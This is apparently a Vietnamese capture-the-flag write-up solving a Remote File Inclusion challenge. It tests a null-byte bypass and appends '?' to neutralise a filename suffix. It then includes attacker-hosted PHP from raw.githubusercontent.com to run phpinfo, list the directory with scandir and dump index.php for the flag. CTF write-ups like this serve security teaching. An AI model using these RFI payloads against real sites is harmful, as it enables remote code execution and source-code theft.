






# Remote File Inclusion

**30 Points** 

**Title**

Abbreviated RFI

**Statement**

Get the PHP source code.

## Analysis:

Một website với tính năng dịch 1 câu sang 2 ngôn ngữ (Anh/Pháp). Đây là một bài *RFI*, ta sẽ tìm input point, ở đây là biến `lang`. Thử input `../`

Thông báo lỗi xuất hiện, không thể mở file `../_lang.php` (RFI khả thi). Vậy là ta có thể đoán bên server dùng hàm **include()** và lấy giá trị của biến `page` và nối chuỗi với `_lang.php`



Testing một hồi thì ta thấy cũng không có **filter**

## Solution:

Vì tên bài là thuộc dạng RFI (Remote File Inclusion) nên ta sẽ thử request tài nguyên từ trang khác về và đẩy lên trang mình (quá trình này được xử lý bên server). Tuy nhiên, ta để ý rằng giá trị ta thêm vào biến `page` sẽ được nối thêm với chuỗi đằng sau nữa, điều này làm ảnh hưởng đến kết quả chúng ta. Một trong những cách bypass là chèn [Null-byte terminator](https://www.unix-ninja.com/p/Hacking_PHP_with_the_null_byte_terminator) vào để thực hiện việc nhúng(embed) mã nguồn trang đích vào. Ví dụ payload

```
https://github.com/khangtictoc%00
```

> NOTE: `%00` là ký tự ngắt chuỗi trong PHP, vì PHP được viết bằng C nên thừa kế tính năng này, tuy nhiên từ phiên bản PHP 5.3.4 trở đã được fixed, path file chứa NULL byte sẽ được xem là không hợp lệ :((



Vậy là version PHP hiện tại >= 5.3.4. Không sao, ta vẫn còn các cách bypass khác, dùng `?` để mở ra một query string mới, cộng thêm việc cộng chuỗi đằng sau sẽ thành `?_lang.php`, tức là định nghĩa nhưng chưa làm gì với biến `_lang.php`. Payload:

```
https://github.com/khangtictoc?
```


Trang đích đã được embed vào trang hiện tại. Thử nhúng một đoạn code PHP do ta tùy biến. Nơi chứa code đảm bảo chỉ chứa **Raw Source**, để làm việc này thì ta có nhiều công cụ như github, pastebin, ... có tính năng xem "raw" để lưu trữ code gốc (không thêm không bớt). Ở đây mình dùng **github** luôn cho tiện, không sử dụng tool nào hết.

Tạo repo mới (cho dễ nhìn thôi, tạo file trong repo cũ cũng OK) -> Tạo `file temp.php` chứa nội dung sau:

```php
<?php
phpinfo();
?>
```

Vào file xem dưới chế độ bản "Raw". Đảm bảo trong source code (Ctrl + U) chứa đúng code mình cần. Copy đường dẫn Raw, payload của mình:

```
https://raw.githubusercontent.com/anony123321ynona/Temp/main/temp.php?
```



Thực thi được file PHP, giờ thì mình xem các file hiện có trong thư mục hiện tại, sử dụng hàm [scandir](https://www.php.net/manual/en/function.scandir.php). 

> NOTE: Hàm scandir sẽ trả về mảng key-value (associative array)

Thay đổi code trong file `temp.php`:

```php
<?php
print_r(scandir("."));
?>
```

Dùng payload cũ ở trên:



Ta thấy có file `index.php`. Đọc ra và lấy flag thôi, `temp.php`:

```php
<?php
echo file_get_contents("index.php");
?>
```

Dùng payload cũ:



Ta thấy page được load 2 lần, vậy là đã embed thành công. Vào source code kiểm tra mã nguồn file `index.php`

<p align="center">  </p>

Flag: **R3m0t3_iS_r3aL1y_3v1l**
